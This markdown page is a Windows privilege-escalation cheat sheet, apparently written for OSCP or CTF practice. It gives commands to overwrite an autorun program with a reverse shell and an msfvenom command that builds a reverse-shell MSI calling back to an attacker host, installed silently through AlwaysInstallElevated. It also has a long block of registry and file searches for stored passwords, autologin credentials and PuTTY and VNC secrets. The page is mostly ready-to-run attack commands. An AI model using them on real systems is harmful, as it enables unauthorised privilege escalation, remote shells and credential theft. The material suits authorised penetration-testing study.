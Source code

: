 ## Unattended Windows Installations
Credentials maybe found in this xml files if batch installation on large number of hosts has not been cleaned up by a SysAdmin
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
## Autorun executables
```powershell
# WARNING
# BEWARE
# FOR this to work you would have to restart a box
# OSCP exam or CTFs probably want you to turn off the *sigh* box  
#
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe" # sysinternals - check writablity
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y # copy reverse shell and overwrite the autorun
# restart system
```

## AlwaysInstalledElevated
Jake Williams:  `AlwaysInstalledElevated` check if its an `.msi`, commonly found in 500-5000 employee size companies, not enterprises.
```powershell
# Some PrivEsc related material online does not include the /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated # Query Both
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated # If both keys are set 1 (0x1)
```
On attackbox:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKBOX LPORT=$PORT -f msi -o reverse.msi # Beware of Arch
# Also requires metasploit handler module configured accordingly 
msiexec /quiet /qn /i C:\Windows\Temp\reverse.msi 
```

## Credentials

In files, memory or [[Windows-Registry]]
```powershell
findstr /si password *.xml *.ini *.txt *.config
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# WDigest if active store plain-text passwords are stored in LSASS
```